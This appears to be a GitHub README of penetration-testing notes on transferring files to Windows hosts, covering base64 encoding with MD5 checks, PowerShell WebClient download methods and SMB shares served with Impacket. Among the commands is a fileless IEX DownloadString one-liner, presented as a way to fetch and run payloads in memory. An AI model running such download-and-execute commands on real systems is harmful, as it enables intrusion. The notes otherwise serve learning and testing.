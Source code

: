 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows.md#powershell-base64-encode--decode)
<br>
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#step-2-encode-file-to-base64)
<br>
[SMB Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#smb-downloads)
<br>
[FTP Downloads]()
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

### PowerShell Invoke-WebRequest
```powershell
PS> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```
## SMB Downloads
The **Server Message Block protocol (SMB protocol)** that runs on port **TCP/445** is common in enterprise networks where Windows services are running.

In order to transfer files, we need to create an SMB server in our machine with *smbserver.py* from Impacket and then use **copy**, **move**, **PowerShell Copy-Item**, or any other tool that allows connection to SMB.

### Step 1: Create the SMB Server
We will be using **Impacket**, if you dont have it installed you can do that using this bash code:
```bash
$ sudo apt-get install python3-impacket
```

Once we have that installed we can move on to actually creating the smb server:
```bash
$ sudo impacket-smbserver <Share Name> -smb2support <Share Folder>
```

Example:
```bash
$ sudo impacket-smbserver sharefolder -smb2support /tmp/share
```
### Step 2: Copying a File from the SMB Server
Log into the SMB server using smbclient:
```powershell
PS> smbclient \\<IP Adrress>\\<Share Name>
```

Example:
```powershell
PS> smbclient \\10.10.10.10\\sharefolder

Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \>
```
**Note:** in this case we did not specify a password so any password will be suffecient for accessing the files, although it is better to add credentials.

## FTP Downloads
